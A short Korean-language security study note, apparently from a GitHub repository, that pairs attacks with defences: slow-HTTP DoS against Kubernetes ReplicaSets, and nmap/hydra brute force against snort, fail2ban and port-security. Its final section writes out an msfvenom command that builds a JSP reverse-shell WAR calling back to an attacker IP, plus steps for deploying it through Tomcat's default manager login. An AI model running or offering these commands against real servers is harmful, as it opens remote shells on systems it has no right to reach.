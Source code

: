 # 공격기법: DOS공격
## 공격툴: slowhttp in kali-linux-2025
# 대응방법: fault tolerence
## 방어툴: k8s의 replicaset 기능 
---
# 공격기법: Brute Force Attack (무차별 대입 공격)
## 공격툴: HUB(device), nmap&hydra in kali-linux-2025
# 대응방법: IDS(snort), IPS(fail2ban, port-security)
## 방어툴1: IPS(port-security)
## 방어툴2: IPS(fail2ban)
## 방어툴3: IDS(snort)
---
# kalilinux-2025 안에서 명령어 3줄이면 ReverseShell 파일을 심는 Malware 공격할 수 있다. 단, ApacheTomcat 생서 처음에만 먹히는 공격이다. 초기 비밀번호를 잘 관리하면 방어할 수 있다.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<공격자 IP 주소> LPORT=4444 -f war > shell.wa
nmap -sV -sC <타겟 IP 주소>
# tomcat 으로 기본값으로 manager 로그인 시도
http://<타겟 IP>:8080/shell/ ##실행됨
